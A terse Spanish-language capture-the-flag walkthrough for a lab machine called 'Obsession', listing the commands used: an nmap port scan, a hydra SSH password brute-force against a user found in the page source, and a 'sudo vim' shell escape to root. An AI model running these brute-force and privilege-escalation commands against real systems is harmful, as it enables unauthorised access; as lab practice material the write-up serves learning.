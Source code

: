 Maquina: Obsession
Autor: Juan
Dificultad: Muy Facil

ping 172.17.0.2 -c 1

sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oN Escaneo
Vemos el puerto 80 abierto
miramos la web https:172.17.0.2
miramos el codigo y encontramos un posible usuario

sudo hydra -l russoski -P /usr/share/wordlists/rockyou.txt.gz ssh://172.17.0.2

sudo -l
y encontramos que podemos ejecutar vim como root

sudo vim -c ':!/bin/sh'
whoami

